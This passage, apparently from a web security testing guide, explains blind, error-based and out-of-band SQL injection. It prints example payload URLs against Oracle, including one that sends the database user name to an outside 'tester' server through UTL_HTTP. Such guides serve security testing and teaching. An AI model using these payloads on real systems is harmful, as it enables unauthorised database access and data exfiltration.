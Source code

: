 `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND LENGTH(username)=N AND '1' = '1'`

The query returns either true or false. If we obtain true, then we have completed the inference and, therefore, we know the value of the parameter. If we obtain false, this means that the null character is present in the value of the parameter, and we must continue to analyze the next parameter until we find another null value.

The blind SQL injection attack needs a high volume of queries. The tester may need an automatic tool to exploit the vulnerability.

#### Error Based Exploitation Technique

An Error based exploitation technique is useful when the tester for some reason can’t exploit the SQL injection vulnerability using other technique such as UNION. The Error based technique consists in forcing the database to perform some operation in which the result will be an error. The point here is to try to extract some data from the database and show it in the error message. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section).

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script who executes the query above:

`http://www.example.com/product.php?id=10`

The malicious request would be (e.g. Oracle 10g):

`http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--`

In this example, the tester is concatenating the value 10 with the result of the function `UTL_INADDR.GET_HOST_NAME`. This Oracle function will try to return the hostname of the parameter passed to it, which is other query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:

`ORA-292257: host SCOTT unknown`

Then the tester can manipulate the parameter passed to GET_HOST_NAME() function and the result will be shown in the error message.

#### Out of Band Exploitation Technique

This technique is very useful when the tester find a [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection) situation, in which nothing is known on the outcome of an operation. The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server. Like the error based techniques, each DBMS has its own functions. Check for specific DBMS section.

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script who executes the query above:

`http://www.example.com/product.php?id=10`

The malicious request would be:

`http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`
